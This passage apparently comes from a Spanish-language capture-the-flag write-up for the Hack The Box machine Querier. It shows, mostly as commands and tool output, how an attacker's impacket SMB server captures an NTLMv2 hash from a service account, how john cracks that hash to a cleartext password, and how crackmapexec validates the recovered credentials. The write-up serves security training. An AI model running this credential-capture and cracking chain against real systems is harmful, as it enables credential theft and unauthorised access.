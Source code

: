 ```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.125,49694)
[*] AUTHENTICATE_MESSAGE (QUERIER\mssql-svc,QUERIER)
[*] User QUERIER\mssql-svc authenticated successfully
[*] mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:8bd4caf70224f8aebc7c79404049305d:0101000000000000800c9068ffabd701410f4a3dd8d7221300000000010010005a0077007100570073004c004b007900030010005a0077007100570073004c004b007900020010004100500068004f0064004c0050007500040010004100500068004f0064004c005000750007000800800c9068ffabd70106000400020000000800300030000000000000000000000000300000b58fdd1714e6ed624db2b7fbba1433facc61ba9747ccbeaf3c5b2e7f2aa100d40a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003200000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:smbFolder)
[*] AUTHENTICATE_MESSAGE (\,QUERIER)
[*] User QUERIER\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:smbFolder)
[*] Closing down connection (10.10.10.125,49694)
[*] Remaining connections []
```

En nuestra máquina de atacante podemos un hash NTLMv2 el cual **NO** nos service para hacer *pass the hash*; pero podriamos tratar de crackearlo para ver la contraseña en texto claro. Por lo que creamos un archivo llamado *hash* en el cual pegamos el hash de NTLMv2 que vemos y ocupamos la herramienta `john`. En algunos casos es posible que `john` no pueda crackear el hash, en caso de que suceda, obtener un nuevo hash y tratar de crackearlo o hacer uso de [Responder](https://github.com/SpiderLabs/Responder).

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
corporate568     (mssql-svc)
1g 0:00:00:30 DONE (2021-09-17 15:10) 0.03235g/s 289819p/s 289819c/s 289819C/s corpron50..corporal40
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

Tenemos unas nuevas credenciales, por lo que pasamos a validarlas con `crackmapexec`:

```bash
❯ crackmapexec smb 10.10.10.125 -u 'mssql-svc' -p 'corporate568' -d WORKGROUP
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:WORKGROUP) (signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [+] WORKGROUP\mssql-svc:corporate568
```
